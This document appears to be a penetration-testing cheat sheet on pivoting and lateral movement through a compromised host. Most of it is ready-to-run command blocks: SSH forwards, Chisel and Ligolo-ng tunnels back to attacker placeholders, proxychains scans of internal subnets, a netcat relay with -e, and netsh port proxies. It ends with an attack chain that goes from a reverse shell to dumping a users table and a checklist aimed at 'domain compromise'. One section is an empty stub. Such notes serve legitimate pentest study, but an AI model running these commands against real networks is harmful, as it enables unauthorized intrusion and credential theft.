

# 🌉 Pivoting & Tunneling (Lateral Movement)

> [!info] Multi-Hop Exploitation
> Access internal networks through compromised machine.

---

## 🎯 Pivoting Strategies



---

## 🔌 1. SSH Local Port Forward

**Forward local port → remote port through SSH**

```bash
ssh -L 8888:TARGET:3306 compromised_user@COMPROMISED_IP
# -L: local port forward
# Now: localhost:8888 → TARGET:3306 through SSH tunnel
```

### Example: Access Internal DB

```bash
ssh -L 3306:192.168.1.100:3306 user@compromised.com
mysql -h localhost -u admin -p
# Connects to 192.168.1.100:3306 through tunnel!
```

---

## 🔄 2. SSH Remote Port Forward

**Forward remote port → local port**

```bash
ssh -R 8888:localhost:80 user@attacker.com
# attacker:8888 → compromised_machine:80
```

### Use Case: Reverse Access

```
Compromised machine can't access attacker directly
But attacker can access compromised machine's web server
```

---

## 🌐 3. SSH Dynamic Port Forward (SOCKS Proxy)

**Most powerful: access entire network through tunnel**

```bash
ssh -D 1080 user@compromised.com
# Creates SOCKS5 proxy on localhost:1080

# Configure proxychains:
# Add "socks5 127.0.0.1 1080" to /etc/proxychains.conf

proxychains nmap -p 22,80,443 192.168.1.0/24
# Nmap scan through tunnel!
```

### Full Network Access

```bash
# Through SOCKS5 proxy:
proxychains ssh user@192.168.1.50
proxychains psql -h 192.168.1.10 -U admin
proxychains smb client -L //192.168.1.20
```

---

## 🛣️ 4. Chisel (Modern Tunneling)

**SSH alternative (single binary, easy to use)**

### Setup Listener (Attacker)

```bash
./chisel server -p 8000 --reverse
```

### Create Tunnel (Compromised)

```bash
./chisel client ATTACKER_IP:8000 R:1080:127.0.0.1:1080
# Creates SOCKS5 proxy

# Or forward specific port
./chisel client ATTACKER_IP:8000 R:3306:192.168.1.100:3306
```

### Access Through Tunnel

```bash
proxychains nmap 192.168.1.0/24
mysql -h localhost -u admin -p
```

---

## 🌐 5. Ligolo-ng (Ultra-Modern)

**Best performance, supports Windows**

### Attacker Listener

```bash
./ligolo-ng_agent -connect ATTACKER_IP:11601 -ignore-cert
```

### Compromised Machine

```cmd
C:\> ligolo-ng_agent.exe -connect ATTACKER_IP:11601 -ignore-cert
```

### Define Routes

```bash
ligolo> session
ligolo> ifconfig
# See all interfaces

ligolo> route add 192.168.1.0/24
# Now can access 192.168.1.0/24 through tunnel
```

---

## 🔐 6. Proxychains Configuration

```bash
cat /etc/proxychains.conf
# Add to end:
# socks5 127.0.0.1 1080

# Use:
proxychains nmap -p 22 192.168.1.100
proxychains smbclient -L //192.168.1.50
proxychains curl http://internal.local
```

---

## 🔑 7. Port Forwarding with Netcat

**Simple but works**

```bash
# On compromised machine:
nc -lvnp 8888 -e nc 192.168.1.100 3306

# On attacker:
nc localhost 8888
# Now connected to 192.168.1.100:3306!
```

---

## 📡 8. SOCKS5 Server via Python

**Create SOCKS server on compromised machine**

```python
# Install: pip install pysocks
# Create server that proxies traffic
```

---

## 🛣️ 9. Windows Port Forwarding (netsh)

```cmd
netsh interface portproxy add v4tov4 listenport=8888 listenaddress=0.0.0.0 connectport=3306 connectaddress=192.168.1.100

# Verify:
netsh interface portproxy show all

# Delete:
netsh interface portproxy delete v4tov4 listenport=8888 listenaddress=0.0.0.0
```

---

## 🎯 Pivoting Attack Chain Example

```
1. Exploit web server (172.16.0.10)
   └─ Get reverse shell

2. Enumerate network from shell
   └─ Find 192.168.1.0/24 network

3. Setup pivot
   ssh -D 1080 user@172.16.0.10

4. Scan internal network
   proxychains nmap -p 22,3306 192.168.1.0/24

5. Find DB server
   192.168.1.100:3306 (MySQL)

6. Forward DB port
   ssh -L 3306:192.168.1.100:3306 user@172.16.0.10

7. Access DB
   mysql -h localhost -u admin -p

8. Extract credentials
   SELECT * FROM users;

9. SSH to app server
   ssh admin@192.168.1.50

10. Continue escalation...
```

---

## 📋 Pivoting Checklist

- [ ] Identify compromised machine's network position
- [ ] Enumerate directly connected networks
- [ ] Setup tunnel (SSH, Chisel, Ligolo)
- [ ] Configure proxychains / proxytools
- [ ] Scan internal network through tunnel
- [ ] Identify high-value targets (DB, DC, file servers)
- [ ] Establish access to next hop
- [ ] Repeat until domain compromise

---

## 💡 Pro Tips

> [!tip] SSH Dynamic Forward is Standard
> `-D 1080` + proxychains = access entire network

> [!tip] Test Connectivity First
> Ping → port scanning → service enumeration

> [!tip] Automate with Scripts
> Write scripts to scan/exploit through tunnel

---

**Related Notes:**
- [[01-Methodology/Pentest-Methodology|🗺️ Pentest Methodology]]
- [[03-Windows/Active-Directory|👑 Active Directory Attacks]]

---
